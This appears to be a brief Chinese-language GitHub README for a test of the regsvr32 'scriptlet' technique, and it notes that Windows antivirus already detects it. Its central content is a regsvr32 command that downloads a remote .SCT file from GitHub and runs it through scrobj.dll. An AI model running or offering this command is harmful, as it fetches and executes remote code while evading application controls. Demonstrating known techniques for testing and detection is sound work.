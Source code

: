 # TEST_REGsvr32
這是一個測試文件&說明
<br>
```已經會被Windows內建防毒偵測```
---
# CMD:
```
regsvr32.exe /u /n /s /i:https://github.com/vale5230/-E-5vr32/blob/master/TEST.SCT scrobj.dll
```
---
# 參考連結:
[參考](mp.weixin.qq.com/s/AQKHm6w0ZsUhm6H5BFmfXw?fbclid=IwAR2wF2o4iD-a0SlS9AExwbnWOuxcOmqQvedKinNjA6xEoPkWzyUg14NTJ18)

